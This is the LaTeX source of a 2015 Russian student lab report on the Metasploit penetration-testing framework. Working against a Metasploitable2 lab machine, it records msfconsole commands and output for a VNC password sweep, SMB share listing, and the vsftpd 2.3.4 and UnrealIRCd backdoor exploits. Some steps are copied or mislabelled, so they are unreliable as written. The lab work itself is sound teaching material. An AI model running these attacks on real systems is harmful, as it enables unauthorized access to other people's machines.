\documentclass[utf8x, 12pt]{G7-32} 


% --------- -------- SETTINGS --------- --------

% --------- Настройки стиля ГОСТ 7-32 --------

% Гипертекстовое оглавление в PDF
\usepackage[
bookmarks=true, colorlinks=true, unicode=true,
urlcolor=black,linkcolor=black, anchorcolor=black,
citecolor=black, menucolor=black, filecolor=black,
]{hyperref}

\usepackage{graphicx}   % Пакет для включения рисунков
\DeclareGraphicsExtensions{.jpg,.pdf,.png}
\geometry{right=20mm}
\geometry{left=30mm}
\usepackage{enumerate}
\setcounter{tocdepth}{3} % Подробность оглавления


% --------- other settings --------
\usepackage{MnSymbol}
%\usepackage{simpsons}
% --------- -------- SETTINGS --------- --------

% LISTINGS
\usepackage{listings}
\usepackage{color}

\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}

\lstset{frame=tb,
  language=bash,
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3
}

\begin{document}

\frontmatter 

% --------- -------- TITLE --------- --------

\begin{center} 

\large САНКТ-ПЕТЕРБУРГСИЙ ГОСУДАРСТВЕННЫЙ ПОЛИТЕХНИЧЕСКИЙ УНИВЕРСИТЕТ

\large Кафедра Компьютерных Систем и Программных Технологий \\[5.5cm] 

\huge ОТЧЕТ \\[0.6cm] % название работы, затем отступ 0,6см
\large по лабораторной работе №5\\
\large Тема: <<Инструмент тестов на проникновение Metaspoit>>\\
\large Дисциплина: <<Методы и средства защиты информации>>\\[3.7cm]

\end{center} 

\begin{flushright}
Выполнил: студент гр. 53501/2 \\
Федоров Е.М. \\[1.2cm]


Преподаватель \\
Вылегжанина К.Д.
\end{flushright}


\vfill 

\begin{center} 
\large Санкт-Петербург \\
2015
\end{center} 

\thispagestyle{empty}


% --------- -------- TITLE --------- --------

\thispagestyle{empty}
\setcounter{page}{0}
\tableofcontents
\clearpage
\mainmatter


\chapter{Задание}

\begin{enumerate}
	\item Подключиться к VNC-серверу, получить доступ к консоли
	\item Получить список директорий в общем доступе по протоколу SMB
	\item Получить консоль используя уязвимость в vsftpd
	\item Получить консоль используя уязвимость в irc
	\item Armitage Hail Mary
	\item Изучить три файла с исходным кодом эксплойтов или служебных скриптов на ruby и описать, что в них происходит
\end{enumerate}


\chapter{Выполнение}

\begin{itemize}
	\item Атакующая машина (kali linux) – 192.168.1.207
	\item Атакуемая машина (Metasploitable2) – 192.168.1.214
\end{itemize}



\newpage
\section{Подключиться к VNC-серверу, получить доступ к консоли}

\begin{enumerate}
	\item подключаемся к консоли metasploit
\begin{lstlisting}
root@kali:~# msfconsole
\end{lstlisting}
\medskip
	
\item Подключаемся к нужному модулю:
\begin{lstlisting}
msf > use auxiliary/scanner/vnc/vnc_login
\end{lstlisting}
\medskip

\item Устанавливаем параметры модуля: адрес удаленного хоста и количество потоков для работы
\begin{lstlisting}
msf auxiliary(vnc_login) > set RHOSTS 192.168.1.214
msf auxiliary(vnc_login) > set THREADS 8
\end{lstlisting}
\medskip

\item Запускаем модуль
\begin{lstlisting}
msf auxiliary(vnc_login) > run

[*] 192.168.1.214:5900 - Starting VNC login sweep
[!] No active DB -- Credential data will not be saved!
[!] No active DB -- Credential data will not be saved!
[+] 192.168.1.214:5900 - LOGIN SUCCESSFUL: :password
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
\end{lstlisting}
\medskip


\item Получаем удаленный доступ, используя vnc клиент и полученный пароль.
\begin{lstlisting}
root@kali:~# xtightvncviewer 192.168.1.214
Connected to RFB server, using protocol version 3.3
Performing standard VNC authentication
Password: 
Authentication successful
\end{lstlisting}

\begin{figure}[hhh!]
	\begin{center}
		
\includegraphics[width=10cm]{img/1}
	\end{center}
	\vspace{-5mm}\caption{Удаленная консоль metasploit в ОС Kali Linux}
\end{figure}
\end{enumerate}


\newpage
\section{Получить список директорий в общем доступе по протоколу SMB}

\begin{enumerate}
\item Подключаемся к нужному модулю:
\begin{lstlisting}
msf > use auxiliary/scanner/smb/smb_enumshares
\end{lstlisting}
\medskip

\item Устанавливаем параметры модуля: адрес удаленного хоста и количество потоков для работы
\begin{lstlisting}
msf auxiliary(smb_enumshares) > set RHOSTS 192.168.1.214
msf auxiliary(smb_enumshares) > set THREADS 8
\end{lstlisting}
\medskip

\item Запускаем модуль
\begin{lstlisting}
msf auxiliary(smb_enumshares) > run

[+] 192.168.1.214:139 - print$ - (DISK) Printer Drivers
[+] 192.168.1.214:139 - tmp - (DISK) oh noes!
[+] 192.168.1.214:139 - opt - (DISK) 
[+] 192.168.1.214:139 - IPC$ - (IPC) IPC Service (metasploitable server (Samba 3.0.20-Debian))
[+] 192.168.1.214:139 - ADMIN$ - (IPC) IPC Service (metasploitable server (Samba 3.0.20-Debian))
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
\end{lstlisting}
\medskip

\item Получаем удаленный доступ, используя vnc клиент и полученный пароль.
\begin{lstlisting}
root@kali:~# xtightvncviewer 192.168.1.214
Connected to RFB server, using protocol version 3.3
Performing standard VNC authentication
Password: 
Authentication successful
\end{lstlisting}
\end{enumerate}



\newpage
\section{Получить консоль используя уязвимость в vsftpd}
\begin{enumerate}

\item Сканируем целевую машину с целью определить версию ftp сервера
\begin{lstlisting}
msf auxiliary(smb_enumshares) > nmap 192.168.1.214 -p 21 -sV
\end{lstlisting}

\item Подключаемся к модулю эксплоита:
\begin{lstlisting}
msf > use exploit/unix/ftp/vsftpd_234_backdoor
\end{lstlisting}
\medskip

\item Устанавливаем параметры модуля: адрес удаленного хоста 
\begin{lstlisting}
msf exploit(vsftpd_234_backdoor) > set RHOSTS 192.168.1.214
\end{lstlisting}
\medskip

\item Подключаем файл с командами для эксплоита
\begin{lstlisting}
msf exploit(vsftpd_234_backdoor) > set PAYLOAD cmd/unix/interact
\end{lstlisting}
\medskip


\item Запускаем эксплоит
\begin{lstlisting}
msf exploit(vsftpd_234_backdoor) > set PAYLOAD cmd/unix/interact
\end{lstlisting}
\end{enumerate}




\newpage
\section{Получить консоль используя уязвимость в irc}

\begin{enumerate}
\item Сканируем целевую машину с целью определить версию irc
\begin{lstlisting}
msf exploit(vsftpd_234_backdoor) > nmap 192.168.1.214 -sV -p 6667
\end{lstlisting}


\item Подключаемся к модулю эксплоита:
\begin{lstlisting}
msf > use exploit/unix/irc/unreal_ircd_3281_backdoor
\end{lstlisting}
\medskip

\item Устанавливаем параметры модуля: адрес удаленного хоста 
\begin{lstlisting}
msf exploit(unreal_ircd_3281_backdoor) > set RHOSTS 192.168.1.214
\end{lstlisting}
\medskip

\item Запускаем эксплоит
\begin{lstlisting}
msf exploit(unreal_ircd_3281_backdoor) > exploit
\end{lstlisting}
\end{enumerate}


\section{Armitage Hail Mary}

Hail Mary это модуль, поочередно запускающий все эксплоиты, которые могут применены к выбранному хосту. 

Запустим приложение, найдя приложение в проводнике:
<<Exploitation Tools>> --- <<Network Exploitation>> --- <<armitage>>. Далее произведем атаку на уязвимую машину:

\begin{figure}[hhh!]
	\begin{center}
		
\includegraphics[width=6cm]{img/2}
	\end{center}
	\vspace{-5mm}\caption{Взлом по ip с помощью утилиты armitage}
\end{figure}




\newpage
\section{Изучить три файла с исходным кодом эксплойтов или служебных скриптов на ruby и описать, что в них происходит}

Файлы состоят из нескольких частей: заголовка, импортов, объявления используемых параметров. 

Файлы находятся по адресу: <</usr/share/metasploit-framework/modules/...>>

\begin{enumerate}

	\item auxiliary/scanner/portscan

Модуль предназначен для перечисления открытых TCP портов. Принимает следующие параметры: PORTS, TIMEOUT, CONCURRENCY + наследуемые.
В функции run host осуществляется попытка подключения к портам по списку. Для этого используется функция connect и pattern matching результатов.
\medskip

	\item /auxiliary/scanner/ftp/ftplogin
	
Структура этого файла аналогична предыдущему. Сначала идет заголовок и импорты. Далее регистрируются входные параметры. Данный скрипт содержит несколько вспомогательных структур, таких как testftpaccess, anonymouscreds, cred collection, которые служат для осуществления попытки подключения, содержат параметры по умолчанию для анонимного подключения или являются вспомогательны- ми элементами для сохранения результатов. Основное действие происходит в функции run host, которая собственно и перебирает пароли.
\medskip

	\item /auxiliary/scanner/ftp/ftp\_version
	
Описывает попытку получения версии FTP сервера из его банера.
\end{enumerate}


\chapter{Выводы}


В ходе данной работы были опробованы основные возможности Metasploit. Данный фреймворк позволяет сканировать и тестировать систему на проникновение. В ходе работы было исследовано 4 уязвимости metasploitable, связанных с устаревшим ПО и слабыми паролями. 

Была исследована структура скриптов для metasploit. Фреймворк предоставляет широкие возможности по упрощению написания собственных эксплойтов и вспомогательных скриптов. Однако, следует заметить, что для проведения успешной атаки, необходимо изначально исследовать машину, на которую планируется атака. Необходимо узнать список открытых портов и версии сервисов, запущенных на них. Обычно, это делается при помощи утилиты nmap.



\end{document}
